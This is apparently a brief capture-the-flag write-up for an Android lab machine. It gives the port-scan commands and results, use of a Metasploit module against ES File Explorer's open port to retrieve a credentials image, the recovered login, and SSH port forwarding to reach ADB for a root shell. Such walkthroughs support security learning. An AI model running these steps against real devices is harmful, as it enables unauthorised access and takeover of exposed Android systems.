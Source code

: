 # Explore Write-Up

Easy

Tags:
`Android`
`Android Debug Bridge`

## Intro

1. 

## Enumeration

### Port scanning

```
ports=$(nmap -p- --min-rate=1000 -T4 10.10.10.247 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -sV 10.10.10.247
```

```
PORT      STATE    SERVICE VERSION
2222/tcp  open     ssh     (protocol 2.0)
5555/tcp  filtered freeciv
42135/tcp open     http    ES File Explorer Name Response httpd
46717/tcp open     unknown
59777/tcp open     http    Bukkit JSONAPI httpd for Minecraft game server 3.6.0 or older
```

use es_file_explorer_open_port

set action LISTPICS

getFile creds.jpg

Kristi
Kr1sT!5h@Rp3xPl0r3!

## Privilege Escalation

ssh -L 5555:127.0.0.1:5555 -p 2222 kristi@10.10.10.247 

adb root

adb shell